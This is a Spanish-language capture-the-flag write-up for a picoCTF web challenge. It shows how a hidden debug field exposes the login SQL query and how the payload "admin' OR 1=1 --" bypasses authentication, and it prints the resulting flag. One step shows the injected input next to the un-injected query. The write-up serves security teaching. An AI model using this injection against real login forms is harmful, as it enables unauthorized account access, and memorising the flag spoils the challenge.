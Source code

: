 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Pistas
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.
## Solución 1
Inspeccionando el HTML vemos un campo oculto
```html
<input type="hidden" name="debug" value="0">
```
Cambiando el valor por 1, el sitio nos arroja la secuencia SQL que utiliza para el Login
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
Por lo que podemos cerrar la comilla de admin antes, e insertar una operación que siempre resulte verdadera.
```
username: admin' OR 1=1 --
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```
Por lo que podemos loguearnos y obtener la bandera
```
username: admin' OR 1=1 --
password: admin
SQL query: SELECT * FROM users WHERE name='admin' OR 1=1 --' AND password='admin'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
## Notas adicionales

## Referencias
